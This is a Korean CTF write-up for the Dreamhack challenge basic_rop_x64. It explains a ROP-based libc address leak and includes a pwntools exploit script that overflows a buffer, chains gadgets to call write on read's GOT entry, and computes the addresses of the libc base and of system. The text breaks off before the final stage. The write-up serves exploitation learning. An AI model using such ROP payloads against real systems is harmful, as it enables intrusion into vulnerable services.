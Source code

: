 ROPgadget을 이용하여 가젯을 찾은 결과 rdx를 제외하고는 사용할 수 있는 가젯을 전부 찾아냈다. 근데 rdx의 경우 size의 위치인데 이 size 값을 지정하지 않아도 호출했을 때 문제가 되지 않나요?에 대한 답은 내 페이로드가 실행될 때는 write(1,buf,sizeof(buf))가 실행 된 직후 이므로 rdx가 0x40으로 지정되어 있다. 따라서 이 문제에서는 rdx뿐 아니라 사실 rdi값도 지정해주지 않아도 되긴한다. 

그러면 코드는 다음과 같은 과정으로 진행된다.

1. puts 함수의 plt, read함수의 plt및 got 주소를 알아낸다.
2. 버퍼오버플로우 발생을 통해 리턴할 함수 주소에 pop rdi,pop rsi ,write@plt 를 넣는다.
3. 이를 통해서 read_got에 써져있는 주소 값(라이브러리에서 read함수의 주소)을 알아낸다.
4. 라이브러리에서의 read 함수의 주소를 이용해 오프셋을 빼서 라이브러리의 베이스 주소를 알아낸다.
5. system 함수의 오프셋을 더해 system 함수를 호출하기 위한 주소를 얻어낸다.

```python
rom pwn import *

host="host3.dreamhack.games"
port=17771
p=remote(host,port)
#p=process('./basic_rop_x64')

e=ELF('./basic_rop_x64') # 파일 불러오기
library = ELF('./libc.so.6') # 라이브러리 불러오기
#library = e.libc # 로컬 파일의 라이브러리

# read 함수의 got에 적혀있는 read함수의 라이브러리 주소를 통해
# system 함수의 라이브러리 주소를 알아낼 것 이므로 read의 got주소를 알아야함
write_plt = e.plt['write'] # write 함수의 plt 주소 0x4005d0
read_plt = e.plt['read'] # read 함수의 plt 주소 0x4005f0
read_got = e.got['read'] # read 함수의 got 주소

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881

# read 함수의 got 주소에는 read함수의 라이브러리에서의 주소가 나와있으므로 이를 알기 위함임
payload=b'A'*0x40+b'B'*0x8 # buf(0x40) + SFP

# write(1,read_got,rdx)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15)+p64(read_got)+p64(0)
payload += p64(write_plt)

p.send(payload)
p.recvuntil(b'A'*0x40) 

read_library = u64(p.recvn(6)+b'\x00'*2) # 출력된 read의 라이브러리상 주소 저장
library_base = read_library-library.symbols['read']
system_library = library_base + library.symbols['system']

```

이 때 read_library의 주소를 받아올 때 6바이트만 받아오고 나머지는 \x00으로 채우는 이유는 64비트에서 바이너리의 libc 주소는 우분투 환경에서 주로 0x7f로 시작되며 나머지는 0x00으로 채워지기 때문이다. 

```python
[DEBUG] Received 0x7 bytes:
    00000000  50 63 03 06  0a 7f 0a                               │Pc··│···│
    00000007
```

